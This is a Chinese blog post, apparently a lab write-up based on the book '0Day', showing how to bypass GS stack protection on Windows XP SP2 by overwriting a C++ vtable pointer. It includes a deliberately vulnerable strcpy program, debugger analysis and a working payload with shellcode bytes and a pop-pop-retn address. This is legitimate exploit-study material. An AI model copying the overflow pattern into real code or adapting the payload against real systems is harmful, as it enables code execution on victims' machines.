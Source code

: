 ```yaml
---
layout:		post
title:		覆盖虚函数突破GS
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp2  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>说明: 《0Day》上是覆盖1 byte就能达到效果, 简便起见这里覆盖4 byte。
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include <string.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90";

class GSVirtual{
public:
	void gsv(char *src)
	{
		char buf[200];
		strcpy(buf,src);
		vir();
	}
	virtual void vir()
	{
	}
};

int main()
{
	GSVirtual test;
	__asm int 3
	test.gsv(shellcode);

	return 0;
}
```

项目->属性, 选择release版本, 禁用优化

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x00.png)


### 0x01 分析

运行*.exe, 自动调用OllyDbg附加调试, 成功断在int 3断点

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x01.png)

单步往下, 遇到类成员函数跟进去

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x02.png)

直接F4到这里, 完成了strcpy, 看到下一条指令, eax=ss:[0x0012fe98]=0x0012ff78(虚函数表地址)

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x03.png)

内存区0x0012ff78存放的就是虚表指针

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x04.png)

goto 0x00402100, 这里0x004010a0就是虚函数的入口地址

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x05.png)

再看看copy的数据, 距离虚表指针0x0012ff78还有20 byte

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x06.png)
![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x07.png)

copy的数据源从0x0012fe9c开始, copy的数据从0x00403048开始(两份payload一致)


### 0x02 exploit

组织payload, 将虚表指针覆盖成0x0012fe9c, 即shellcode的起始地址(防着跳板)

```
"\x04\x2b\x99\x7C"		# pop pop retn
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x9c\xfe\x12\x00"		# "\x48\x30\x40\x00"也可以, 两份数据一样的
```

再次附加调试, 现在数据区布局如下

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x08.png)

经过push->pop->pop->retn, 0x0012fe9c弹给eip, 开始执行shellcode, pwn~

![](/assets/img/exploit/2017-10-02-gsbreak-overflow-vtable/0x09.png)